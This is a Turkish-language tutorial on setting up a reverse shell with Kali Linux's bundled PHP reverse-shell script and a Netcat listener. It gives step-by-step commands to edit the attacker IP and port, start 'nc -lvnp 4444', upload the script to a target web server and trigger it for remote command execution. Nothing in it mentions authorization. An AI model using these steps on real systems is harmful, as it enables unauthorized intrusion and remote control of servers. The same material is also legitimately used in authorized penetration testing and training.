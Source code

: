 # Netcat ile Hazır PHP Reverse Shell Kullanımı

Bu rehberde, Kali Linux gibi sızma testi dağıtımlarında bulunan **hazır PHP reverse shell betiği** (`/usr/share/webshells/php/php-reverse-shell.php`) kullanarak Netcat ile bir reverse shell'i nasıl kuracağınızı ve kullanacağınızı kısa ve net adımlarla anlatacağım.

---

## Adım 1: Hazır PHP Reverse Shell Betiğini Düzenleme

Öncelikle, saldırgan makinenizdeki hazır PHP reverse shell betiğini kendi IP adresiniz ve dinleyeceğiniz port numarasıyla düzenlemeniz gerekiyor.

1.  **Betiği Kopyalayın:** Orijinal dosyayı doğrudan düzenlemek yerine, daha güvenli bir şekilde çalışmak için önce onu kendi çalışma dizininize kopyalayın:

    "cp /usr/share/webshells/php/php-reverse-shell.php ~/reverse_shell.php"

2.  **Betiği Düzenleyin:** Kopyaladığınız `~/reverse_shell.php` dosyasını bir metin düzenleyiciyle açın (örneğin, `nano` veya `gedit`):

    `nano ~/reverse_shell.php`

    Dosyanın içinde aşağıdaki satırları bulun:

    ```php
    $ip = '10.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
    ```

    * `'10.0.0.1'` yerine kendi **saldırgan makinenizin IP adresini** yazın.
    * `1234` yerine **dinleyici olarak kullanacağınız port numarasını** yazın (örneğin, `4444`).

    Değişiklikleri kaydedin ve dosyayı kapatın.

---

## Adım 2: Dinleyiciyi (Listener) Ayarlama (Saldırgan Makine)

Düzenlediğiniz betikte belirttiğiniz port numarasını dinlemek için saldırgan makinenizde bir Netcat dinleyicisi başlatın:

"nc -lvnp 4444"

* **`nc`**: Netcat.
* **`-l`**: Dinleme modunu açar.
* **`-v`**: Ayrıntılı çıktı verir.
* **`-n`**: DNS çözümlemesi yapmaz.
* **`-p 4444`**: 4444 numaralı portu dinler.

Bu komutu çalıştırdıktan sonra Netcat, hedef sistemden bağlantı gelmesini bekleyecektir.

---

## Adım 3: PHP Betiğini Çalıştırma (Hedef Makinede)

Düzenlediğiniz `reverse_shell.php` dosyasını hedef web sunucusunun erişebileceği bir dizine yüklemeniz gerekiyor.

Yükledikten sonra, hedef makinedeki web sunucusunda bu dosyaya tarayıcı üzerinden veya `curl` gibi bir araçla erişmeniz yeterlidir:

"http://<hedef_IP_adresi>/reverse_shell.php"

Bu adresi tarayıcınızda açtığınızda veya `curl` ile istek gönderdiğinizde, PHP betiği çalışacak ve saldırgan makinenizdeki Netcat dinleyicinize bir bağlantı kurmaya çalışacaktır.

---

## Sonuç

Eğer her şey doğru ayarlandıysa, saldırgan makinenizdeki Netcat terminalinde bir bağlantı açıldığını göreceksiniz. Bu noktadan itibaren, hedef sistem üzerinde komut çalıştırmaya başlayabileceksiniz.
